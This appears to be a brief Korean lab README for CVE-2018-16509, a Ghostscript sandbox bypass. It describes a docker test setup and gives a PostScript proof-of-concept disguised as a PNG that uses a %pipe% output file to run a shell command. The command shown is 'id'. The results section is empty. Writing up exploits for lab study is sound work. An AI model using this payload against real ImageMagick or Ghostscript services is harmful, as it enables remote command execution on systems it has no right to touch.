

# CVE-2018-16509

**Contributors**

[정기현](https://github.com/jkh011120)

## 요약

CVE-2018-16509는 Postscript 및 PDF를 처리하는 Ghostscript를 우회하여 사용자가 의도치 않은 행위를 하게 합니다. 즉, 파일 확장자로 우회하여 파일업로드 공격이 가능합니다.

## 환경 구성 및 실행

`docker-compose up -d` 커맨드를 입력하여 테스트 환경을 실행합니다 (GhostScript 9.23 및 ImageMagick 7.0.8 버전을 사용합니다).

## poc.ps -> poc.png
Postscript로 코드를 만든 후 확장자를 png로 변경합니다.

```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops
```


## 결과





## 정리

Ghostscript는 파일 우회가 됨.
하지만 9.52.1버전 이후부터 해결 됨.

